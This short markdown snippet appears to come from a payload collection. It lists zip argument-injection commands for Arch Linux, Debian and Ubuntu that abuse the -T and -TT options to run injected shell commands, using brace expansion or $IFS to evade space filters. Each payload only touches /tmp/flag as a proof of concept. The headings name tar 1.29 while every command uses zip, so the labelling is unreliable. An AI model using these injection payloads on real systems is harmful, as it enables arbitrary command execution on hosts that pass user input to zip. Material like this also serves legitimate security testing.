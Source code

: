 ## archlinux (tar 1.29)
Allows for `{,}` format:
```
zip output /proc/self/status -T -TT '{touch,/tmp/flag};'
```

## debian (tar 1.29)
Allows for `$IFS`, but not `{,}` format:
```
zip output /proc/self/status -T -TT 'touch$IFS/tmp/flag;#'
```

## ubuntu (tar 1.29)
Allows for `$IFS`, but not `{,}` format:
```
zip output /proc/self/status -T -TT 'touch$IFS/tmp/flag;#'
```
